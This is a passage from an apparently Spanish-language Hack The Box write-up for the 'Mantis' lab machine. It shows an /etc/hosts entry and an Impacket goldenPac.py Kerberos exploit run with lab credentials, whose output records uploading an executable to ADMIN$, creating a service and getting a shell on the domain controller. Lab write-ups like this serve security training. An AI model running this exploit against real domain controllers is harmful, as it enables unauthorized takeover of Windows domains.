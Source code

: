 ![""](/assets/images/htb-mantis/mantis_kerberos.png)

Asi que primero vamos a agregar en nuestro archivo `/etc/hosts` los dominios relacionados con la dirección IP de la máquina:

```bash
❯ cat /etc/hosts
───────┬────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼────────────────────────────────────────────────────────────────────────
   1   │ # Host addresses
   2   │ 127.0.0.1  localhost
   3   │ 127.0.1.1  k4mipc
   4   │ 10.10.10.52 htb.local mantis.htb.local
   5   │ 
   6   │ ::1        localhost ip6-localhost ip6-loopback
   7   │ ff02::1    ip6-allnodes
   8   │ ff02::2    ip6-allrouters
```

```bash
❯ goldenPac.py htb.local/'james:J@m3s_P@ssW0rd!'@mantis.htb.local
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file lPDhopUm.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service MYLV on mantis.htb.local.....
[*] Starting service MYLV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
```